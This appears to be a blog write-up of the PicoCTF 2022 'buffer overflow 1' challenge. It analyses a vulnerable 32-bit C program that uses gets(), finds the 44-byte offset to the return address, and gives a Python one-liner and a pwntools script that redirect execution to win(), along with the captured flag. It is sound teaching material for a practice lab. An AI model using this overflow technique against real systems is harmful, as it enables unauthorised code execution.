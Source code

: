 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 1"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: "This is the first "proper" binary exploitation (ret2win) challenge in this CTF."
---
```


For this challenge, I found John Hammond's [walkthrough video](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB) to be extremely helpful and informative.

## My Solution
Firstly, let's download the provided files.
```bash
wget https://artifacts.picoctf.net/c/187/vuln
wget https://artifacts.picoctf.net/c/187/vuln.c
```

Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:
```bash
$ file vuln
>> vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, 
BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```
From this, we can observe that the file:
- is a 32-bit ELF file,
- is not stripped,
- is compiled on a little-endian system, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We can see that the provided file has a read buffer size of 32, and has a `win()` function present. The `gets()` function is also used to retrieve user input within the `vuln()` function. Lastly, the program also prints out a return address using a `get_return_address()` function.

Evidently, we will need to control the return address to call the `win()` function. Here, the program helps us to visualize the return address by printing it to standard output. 

I then decided to do some experimenting to see how many 'A's will cause the printed return address to be overwritten. Without causing any segmentation fault, we observe that the program returned to this address: `0x804932f`.

I then used GDB to disassemble the program, in order to see which instruction this address points to.
```bash
$ gdb vuln
>> ...
gef> disas main
...
 0x0804932f <+107>:   mov    eax,0x0
...
```
It appears that this specific address is bound to a move instruction in `main()`.

Through further trial and error, I found that around 44 'A's were required to clobber the return address (which was seen from the presence of 41s in the printed address - 41 is the hex representation of A). 

I can then run `readelf -s vuln` to look for the address of `win()`. Through this, we note that the address is `0x080491f6`.

Now, we can generate the payload. In this case, we want to order our bytes for `win()` in "reverse", since the executable runs on a little-endian system.

Using Python 2.7 to pipe the payload directly into the program: 
```bash
python -c "print 'A'*44 + '\xf6\x91\x04\x08'" | nc saturn.picoctf.net 60801 
```

Alternatively, using Python 3 and pwntools to send the payload through a solver script:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 60801) # for remote execution

# payload buffer
payload = b'A' * 44 # offset of 44 to EIP
payload += p32(0x080491f6) # address of win()

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
Both methods allow us to obtain the flag.
```bash
[+] Opening connection to saturn.picoctf.net on port 60801: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Please enter your string:'
[*] Switching to interactive mode

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 60801
```

## Learning Takeaways
Some general tips I picked up here:
- Play around with the program to test the number of dummy characters required to clobber the return address of our intended functions. Or, how many characters do we need to determine the offset of EIP?
  - We also can use GDB/GEF to determine the offsets, but that will be covered in a later writeup. :)
- Get familiar with `readelf`.
- Python 2 can be used to generate simple payloads, but for more complex payloads and ROP chains, it may be better to use pwntools and Python 3 instead.
  - Interestingly, Python 2 lets us directly pipe in the payload into the program using a print statement, but we can't seem to do this with Python 3 (not even after converting the payload into a bytestring). It could be to do with the behaviour of the print function in Python 3, where it appends a newline character after the payload string. Consequently, this newline character modifies the payload and makes it incorrect.
- Note the differences between little-endian and big-endian.

## References
- [John Hammond (YouTube): 32-bit x86 LINUX BUFFER OVERFLOW (PicoCTF 2022 #31 'buffer-overflow1')](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB)
